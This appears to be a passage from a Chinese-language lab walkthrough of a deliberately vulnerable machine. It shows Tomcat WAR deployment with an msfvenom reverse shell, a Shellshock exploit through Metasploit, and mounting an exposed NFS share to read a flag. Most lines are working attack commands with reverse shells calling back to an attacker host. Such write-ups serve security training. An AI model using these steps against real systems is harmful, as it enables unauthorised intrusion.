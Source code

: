 成功拿到反弹shell！


--------------------------------------------
--------------------------------------------
7、攻击路径六：Tomcat漏洞利用（后台部署）


msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.253.138 LPORT=4455 -f war -o    dayu.war

7z l dayu.war    ----可以看到evulll.war具体内容

部署后：
nc -vlp 4455
http://192.168.253.135:8080/dayu/quktqjzs.jsp


成功拿到反弹shell！


--------------------------------------------
--------------------------------------------
8、攻击路径七：Shellshock漏洞利用  （项目九）

Shellshock，又称Bashdoor，是在Unix中广泛使用的Bash shell中的一个安全漏洞，首次于2014年9月24日公开。


nikto -h http://192.168.253.135

+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).

发现存在Shellshock漏洞！！！

msfconsole
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set payload linux/x86/shell/reverse_tcp
set lhost 192.168.253.138
set rhosts 192.168.253.135
set targeturi /cgi-bin/test.sh
run

成功拿到反弹shell！

--------------------------------------------
--------------------------------------------
9、攻击路径八：NFS漏洞利用

NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。

search nfs
use auxiliary/scanner/nfs/nfsmount
set rhosts 192.168.253.135
/typhoon [*]   ---挂载了该目录

mkdir /tmp/typhoon
mount -t nfs 192.168.253.135:/typhoon /tmp/typhoon
cat secret      
test file
<rec0nm4st3r> R3c0n_m4steeeee3er_fl4g </rec0nm4st3r>
